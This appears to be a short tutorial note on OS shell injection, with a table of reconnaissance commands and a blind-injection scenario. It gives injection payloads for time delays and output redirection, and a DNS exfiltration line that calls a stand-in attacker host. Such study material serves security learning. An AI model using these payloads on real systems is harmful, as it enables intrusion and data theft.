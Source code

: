 # Shell Injection
- Shell injection allows attackers to execute operating system (OS) commands on the server running an application.
## Useful Commands
|Purpose of Command|Linux|Windows| 	
|:----:|:----:|:----:| 
|Name of current user|whoami|whoami| 	
|Operating system|uname -a|ver| 	
|Network configuration|ifconfig|ipconfig /all| 	
|Network connections |netstat -an|netstat -an| 	
|Running processes|ps -ef|tasklist| 	

## Blind OS Command Injection Vulnerabilities
- In blind OS command injection, the application does not return the output from the command within its HTTP response.
### Scenario
- Consider a website that lets users submit feedback. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the mail program with the submitted details:
```shell
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```
The output from the mail command (if any) is not returned in the application's responses.

### Techniques to Detect and Exploit Vulnerabilities
#### Using Time Delays: 
- Injecting commands that introduce a delay can help confirm the presence of a vulnerability. For example:
```shell
; sleep 10;
```
#### Exploiting by Redirecting Output: 
- Redirecting the output of a command to a file or another location can help capture the results. For example:
```shell
; ls > /tmp/output.txt;
```
#### Exploiting Out-of-Band Application Security Testing (OAST) Techniques: 
- Using external systems to capture the output of injected commands. For example, using DNS exfiltration:
```shell
; nslookup `whoami`.attacker.com;
```
